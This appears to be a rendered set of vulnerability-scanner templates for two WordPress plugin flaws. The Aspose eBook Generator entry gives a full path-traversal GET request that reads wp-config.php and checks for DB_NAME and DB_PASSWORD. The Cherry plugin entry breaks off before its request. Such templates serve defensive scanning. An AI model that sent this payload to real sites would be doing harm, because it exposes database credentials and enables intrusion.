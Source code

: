 # Wordpress Aspose Cloud eBook Generator - Local File Inclusion

## Description

- Wordpress Aspose Cloud eBook Generator is vulnerable to local file inclusion.
- severity - high
- tags - aspose,ebook,wpscan,wordpress,wp-plugin,lfi

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/aspose-cloud-ebook-generator/aspose_posts_exporter_download.php?file=../../../wp-config.php

### Matchers

**Type - word**

- words
  1. DB_NAME
  2. DB_PASSWORD
- part - body
- condition - and

**Type - status**

- status
  1. 200

---

# WordPress Cherry \< 1.2.7 - Unauthenticated Arbitrary File Upload and Download

## Description

- WordPress plugin Cherry \< 1.2.7 has a vulnerability which enables an attacker to upload files directly to the server. This could result in attacker uploading backdoor shell scripts or downloading the wp-config.php file.
- severity - high
- tags - wpscan,wordpress,wp-plugin,lfi,wp

## Requests

- Method - GET
